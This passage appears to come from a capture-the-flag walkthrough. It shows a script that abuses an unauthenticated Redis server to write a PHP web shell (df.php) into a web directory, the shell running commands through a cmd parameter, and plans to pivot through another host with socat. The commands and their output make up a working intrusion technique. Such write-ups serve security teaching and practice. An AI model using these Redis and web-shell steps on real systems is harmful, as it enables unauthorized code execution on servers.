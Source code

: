 

Now check out
`http://127.0.0.1/8924d0549008565c554f8128cd11fda4/df.php?cmd=id`:

![](/img/1532623689773.png)

There's other mess there, but the `id` command ran and returned results,
which I marked in red.

`hostname` shows the host is named www:

![](/img/1532632149713.png)

#### Script Redis WebShell

The files in the web directory seem to be cleared out every 3 minutes
(I'll confirm this soon), so I have to work quick. I scripted the
upload:



    #!/bin/sh

    redis-cli -h 127.0.0.1 flushall
    cat redis.txt | redis-cli -h 127.0.0.1 -x set crackit
    redis-cli -h 127.0.0.1 config set dir /var/www.md/8924d0549008565c554f8128cd11fda4/
    redis-cli -h 127.0.0.1 config set dbfilename "df.php"
    redis-cli -h 127.0.0.1 save



On running, it puts the cmd shell in place:



    root@kali# ./upload_shell.sh
    OK
    OK
    OK
    OK
    OK



### Interactive Shell

Now with command execution, I'll get an interactive shell.

#### Connectivity - socat

It doesn't look like I can connect all the back to kali from this host.
`which ping` returns `/bin/ping`, but trying to `ping 10.10.14.14`
doesn't result in anything when watching in `tcpdump`. When I try to
`ping 172.19.0.3` (nodered), I get results:

![](/img/1532632323890.png)

So I need to pivot through nodered. I'll upload a static copy of socat
to the box using the Node-Red flow for upload. Now I can use `socat` one
of two ways:
